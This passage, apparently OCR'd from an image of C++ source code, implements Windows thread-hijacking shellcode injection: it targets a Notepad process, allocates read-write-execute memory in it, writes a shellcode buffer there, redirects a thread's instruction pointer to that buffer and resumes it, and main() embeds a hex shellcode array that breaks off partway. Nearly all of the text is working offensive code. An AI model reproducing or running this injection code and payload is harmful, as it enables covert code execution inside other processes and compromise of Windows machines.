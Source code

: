 ```cpp
    fprintf(stderr, "Notepad process not found.\n");
    CloseHandle(hSnapshot);
    return FALSE;
}

BOOL InjectShellcode(IN HANDLE hProcess, IN PBYTE Shellcode, IN SIZE_T SizeofShellcode, OUT PVOID* ppAddress) {
    SIZE_T dwNumberofBbytesWritten;
    *ppAddress = VirtualAllocEx(hProcess, NULL, SizeofShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (*ppAddress == NULL) {
        fprintf(stderr, "VirtualAllocEx failed: %lu\n", GetLastError());
        return FALSE;
    }

    if (!WriteProcessMemory(hProcess, *ppAddress, Shellcode, SizeofShellcode, &dwNumberofBbytesWritten) || dwNumberofBbytesWritten != SizeofShellcode) {
        fprintf(stderr, "WriteProcessMemory failed: %lu\n", GetLastError());
        VirtualFreeEx(hProcess, *ppAddress, 0, MEM_RELEASE);
        return FALSE;
    }

    return TRUE;
}

BOOL ThreadHijacking(IN HANDLE hThread, IN PVOID pAddress) {
    CONTEXT context;
    context.ContextFlags = CONTEXT_CONTROL;

    if (!GetThreadContext(hThread, &context)) {
        fprintf(stderr, "GetThreadContext failed: %lu\n", GetLastError());
        return FALSE;
    }

    context.Rip = (uintptr_t)pAddress;

    if (!SetThreadContext(hThread, &context)) {
        fprintf(stderr, "SetThreadContext failed: %lu\n", GetLastError());
        return FALSE;
    }

    ResumeThread(hThread);

    WaitForSingleObject(hThread, INFINITE);
    return TRUE;
}

int main() {
     unsigned char buf[] =
        "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
        "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
        "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
        "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
        "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
        "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
        "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
        "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
        "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
        "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
        "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
        "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
        "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
        "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
```